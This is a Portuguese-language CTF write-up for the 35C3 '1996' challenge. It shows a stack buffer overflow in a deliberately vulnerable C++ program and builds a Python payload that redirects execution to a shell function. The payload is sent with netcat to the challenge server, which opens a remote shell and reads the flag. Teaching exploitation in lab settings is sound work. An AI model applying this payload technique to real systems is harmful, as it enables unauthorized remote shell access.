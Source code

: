 ```yaml
---
layout: post
title:  "1996"
date:   2018-12-29 18:00:51 -0200
categories: [CTF,PWN,35C3 CTF]
author: lynfs
event: 35C3 CTF
tags: [CTF,PWN,35C3 CTF]
description: "It's  [1996] Ao baixarmos e extrairmos o arquivo zip, obtemos 2 novos arquivos..."
image: ""
---
```


## Nome:  1996  [35C3 CTF](https://ctftime.org/event/718)

### Dificuldade: Muito fácil

### [](https://github.com/kontez/writeups/blob/master/35C3junior.md#description-6)Descrição: 
It's  [1996](/download/1996-846a46384ff5d85d861c09fc49912def510336e0.zip)  all over again!
`nc 35.207.132.47 22227`


## Levantamento de informações
*Ao baixarmos e extrairmos o arquivo zip, obtemos 2 novos arquivos:*

    root@kali:~/Downloads# unzip 1996-846a46384ff5d85d861c09fc49912def510336e0.zip
    
        Archive: 1996-846a46384ff5d85d861c09fc49912def510336e0.zip
    
        inflating: 1996.cpp
    
        inflating: 1996

Ao abrirmos o arquivo 1996.cpp, podemos ver o seguinte código:

    // compile with -no-pie -fno-stack-protector
    
    #include <iostream>
    #include <unistd.h>
    #include <stdlib.h>
    
    using namespace std;
    
    void spawn_shell() {
        char* args[] = {(char*)"/bin/bash", NULL};
        execve("/bin/bash", args, NULL);
    }
    
    int main() {
        char buf[1024];
    
        cout << "Which environment variable do you want to read? ";
        cin >> buf;
    
        cout << buf << "=" << getenv(buf) << endl;
    }

- Observando o código acima, podemos ver que existe um `buf` com tamanho de `1024`

Rodando o comando `File` no linux, obtemos as seguintes informações do binário:

        root@kali:~/Downloads# file 1996
        1996: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b17d4a3919a3b046b03d35e2fdba47cd94d6aef, not stripped
    
    
## Solução
*Utilizando o [GDB](https://www.gnu.org/software/gdb/), podemos visualizar o endereço da função `spawn_shell( )` vista no código cpp:*

    (gdb) info functions
          all defined functions
          ...
          ...
          ...
          ...
          0x0000000000400897 spawn_shell( )

*analisando a função principal do programa, definimos alguns breakpoints para iniciar a solução*

    

    (gdb) disas main
        
        Dump of assembler code for function main:
        0x00000000004008cd <+0>: push %rbp   
        0x00000000004008ce <+1>: mov %rsp,%rbp    
        0x00000000004008d1 <+4>: push %rbx    
        0x00000000004008d2 <+5>: sub $0x408,%rsp    
        0x00000000004008d9 <+12>: lea 0x188(%rip),%rsi # 0x400a68    
        0x00000000004008e7 <+26>: callq 0x400760 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>    
        0x00000000004008ec <+31>: lea -0x410(%rbp),%rax   
        0x00000000004008f3 <+38>: mov %rax,%rsi  
        0x00000000004008f6 <+41>: lea 0x200883(%rip),%rdi # 0x601180 
        ...
        ...
        ...
        0x0000000000400959 <+140>: mov $0x0,%eax
        0x000000000040095e <+145>: add $0x408,%rsp    
        0x0000000000400965 <+152>: pop %rbx
        0x0000000000400966 <+153>: pop %rbp
        0x0000000000400967 <+154>: retq
         
        End of assembler dump.

    (gdb) b * 0x0000000000400959 
         Breakpoint 1 at 0x0000000000400959 
        
*Sabendo do tamanho do nosso buf, usamos o python para criar nosso Payload*

    r <<< $(python -c 'print "A" * 1040 + "B"*14')

*Após alguns testes, obtemos o controle do registrador `rip`, responsável por obter o endereço da instrução seguinte.*

   

     (gdb) info registers
    rax 0x0  0    
    rbx 0x4141414141414141  4702111234474983745    
    rcx 0x7ffff7d582a4  140737351352996    
    rdx 0x0  0    
    rsi 0x7ffff7e288c0  140737352206528    
    rdi 0x0  0    
    rbp 0x4242424242424242  0x4242424242424242
    rsp 0x7fffffffe1c0  0x7fffffffe1c0
    r8 0x7ffff7e288c0  140737352206528
    r9 0x7ffff7abfd00  140737348631808
    r10 0x328  808
    r11 0x246  582
    r12 0x4007b0  4196272
    r13 0x7fffffffe290  140737488347792
    r14 0x0  0
    r15 0x0  0
    rip 0x424242424242  0x424242424242
    eflags 0x10202 [ IF RF ]
    cs 0x33  51  
    ss 0x2b  43   
    ds 0x0  0 
    es 0x0  0
    fs 0x0  0

*Com isso, basta sobrescrevermos o endereço de `rip` por `0x0000000000400897`, endereço da função `spawn_shell( )`.*

    r <<< $(python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"')

* *O endereço da função `spawn_shell` deve ser utilizado em [Little Endian ](https://edisciplinas.usp.br/pluginfile.php/149774/mod_resource/content/1/03-Endianess-v2.pdf)*

Para enviarmos o Payload ao servidor, utilizamos o `|` para concatenar nossa linha de código com a conexão ao servidor.

    (python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"') | nc 35.207.132.47 22227

   *Não obtemos erro, porém, a conexão é quebrada logo em seguida. Para corrigirmos isto, concatenamos `;cat` à nossa linha de código. O cat fará com que o `/bin/bash` mantenha-se ativo enquanto estivermos conectados ao servidor*

        (python -c 'print "A"*1040 + "B"*8 + "\x97\x08\x40\x00\x00\x00"';cat) | nc 35.207.132.47 22227
    ...
    ...
    ...
    
    Wich environment variable do you want to read? AAAAAAAAAA
    AAAA.......@=ls
    
    1996
    bin
    boot
    dev
    etc
    flag.txt
    home
    lib
    ....
    cat flag.txt

### Flag: 35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14

> Recomendações para entendimento geral

 - [x86_64 assembly](https://www.cs.uaf.edu/2017/fall/cs301/reference/x86_64.html)
 - [Buffer_overflows_really_simple](http://www.cse.chalmers.se/edu/course/EDA263/oh15/L03%20buffer_overflows_really_simple--print.pdf)